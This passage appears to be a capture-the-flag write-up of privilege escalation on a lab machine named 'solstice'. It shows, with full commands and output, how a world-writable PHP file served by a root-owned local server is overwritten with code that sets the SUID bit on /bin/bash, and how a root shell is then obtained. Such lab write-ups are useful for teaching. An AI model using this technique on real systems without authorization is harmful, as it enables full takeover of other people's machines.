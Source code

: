 Searching for method to privesc, I check for running process as root and find this:

```bash
www-data@solstice:/tmp$ ps aux | grep root
<SNIP>
root       487  0.0  0.0   2388   572 ?        Ss   13:02   0:00 /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
```

Check out the file persmissions:

```bash
www-data@solstice:/tmp$ ls -l /var/tmp/sv/
total 4
-rwxrwxrwx 1 root root 36 Jun 19  2020 index.php
www-data@solstice:/var/tmp/sv$ ls -la
total 12
drwsrwxrwx 2 root root 4096 Jun 26  2020 .
drwxrwxrwt 9 root root 4096 Mar 10 14:09 ..
-rwxrwxrwx 1 root root   36 Jun 19  2020 index.php
```

Check its contents:

```bash
www-data@solstice:/var/tmp/sv$ cat index.php
<?php
echo "Under construction";
?>
```

What this command means is that a PHP web server is serving index.php on localhost's port 57. Whenever I fetch `index.php` here, it will execute the PHP code as root. I also have write permissions on this file. So I will replace the current PHP code with code to make bash SUID, then call the webpage, which should then pave the way to root:

```bash
www-data@solstice:/var/tmp/sv$ echo "<?php system('chmod u+s /bin/bash'); ?>" > index.php
www-data@solstice:/var/tmp/sv$ cat index.php
<?php system('chmod u+s /bin/bash'); ?>
www-data@solstice:/var/tmp/sv$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
www-data@solstice:/var/tmp/sv$ curl 127.0.0.1:57
www-data@solstice:/var/tmp/sv$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Rooted:

```bash
www-data@solstice:/var/tmp/sv$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# hostname
solstice
bash-5.0# hostname -I
192.168.238.72
bash-5.0# cat proof.txt
71772f125055fe0b8a29cb26a8393493
```
